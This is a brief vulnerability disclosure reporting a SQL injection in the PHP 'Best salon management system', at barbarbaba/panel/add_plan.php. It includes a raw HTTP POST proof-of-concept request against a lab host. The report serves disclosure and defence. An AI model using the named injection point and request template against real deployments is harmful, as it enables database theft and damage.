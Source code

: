 



The Best salon management system has an SQL injection vulnerability. If an attacker is authenticated, they can exploit this vulnerability to steal information or damage the database.





Source code address：https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html



The vulnerability is located in the barbarbaba/panel/add_plan.php file. The code receives the data submitted by the user and then writes it to the database. There is a direct concatenation with the SQL statement without too many restrictions, which poses a security risk.

![image-20250621121432514](images/image-20250621121432514.png)





Vulnerability verification：

```
POST /barbarbaba/panel/add_plan.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 71
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/barbarbaba/panel/add_plan.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9qunanken3a3eh5ub3i2aegl9i
Connection: close

plan_name=11+1111&description=1111&duration_days=113&price=1111&submit=
```

 ![image-20250621121406595](images/image-20250621121406595.png)



































